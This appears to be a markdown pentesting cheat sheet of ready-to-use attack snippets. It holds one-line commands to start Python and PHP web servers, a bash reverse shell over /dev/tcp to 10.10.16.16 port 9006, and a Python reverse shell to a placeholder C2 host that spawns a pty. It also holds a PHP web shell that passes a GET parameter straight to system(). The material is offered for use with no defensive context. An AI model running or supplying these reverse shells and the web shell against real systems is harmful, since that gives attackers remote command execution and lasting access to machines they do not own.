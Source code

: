 Open WebServer [Python]
```bash
python3 -m http.server <port>
```

Open WebServer [PHP]
```bash
php -S 0.0.0.0:<port>
```

Bash
```bash
/bin/bash -c 'bash+-i >& /dev/tcp/10.10.16.16/9006 0>&1'
```

Python But Bash
```sh
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<c2-ipv4>",<c2-port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```


Web Shell
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


